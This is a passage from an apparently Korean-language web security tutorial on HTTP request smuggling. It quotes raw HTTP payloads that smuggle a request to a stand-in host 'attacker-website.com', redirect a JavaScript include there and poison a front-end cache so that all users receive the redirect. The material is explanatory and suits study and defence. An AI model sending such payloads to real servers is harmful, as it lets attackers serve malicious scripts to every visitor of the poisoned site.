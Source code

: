 smuggled된 요청이 공격자의 웹사이트로 리다이렉트를 발생시킵니다.

**Smuggled request :**

``` http
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```

**Response :**

``` http
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

원래 요청은 페이지에 포함된 자바스크립트 파일을 위한 것이었는데, 공격자의 웹사이트에 자바스크립트 파일을 만들어 놓으면 그 파일로 요청이 리다이렉트됩니다.

### 😎 Using HTTP request smuggling to perform web cache poisoning

앞 공격의 변형인데, **HTTP request smuggling**을 이용해서 **web cache poisoning** 공격이 가능함을 보여주고 있습니다. Front-end 기능 중 일부가 같은 요청에 대한 응답을 캐싱하고 있다면, off-site 리다이렉트를 통해 cache를 공격할 수 있습니다.  성공하면 공격당한 URL로 요청을 보내는 모든 사용자를 대상으로 공격할 수 있는 강력한 공격방법입니다.

예로, 공격자는 Front-end 서버에게 다음과 같은 요청을 보냅니다 :

``` http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

smuggle된 요청은 Back-end 서버로부터 바로 이전 공격과 같은 응답을 밭습니다(off-site redirect). Front-end 서버는 `/static/include.js`로의 요청이 두 번째 요청이라고 생각하고 응답을 캐싱합니다 :

**Request :**

``` http
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

**Response :**

``` http
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```
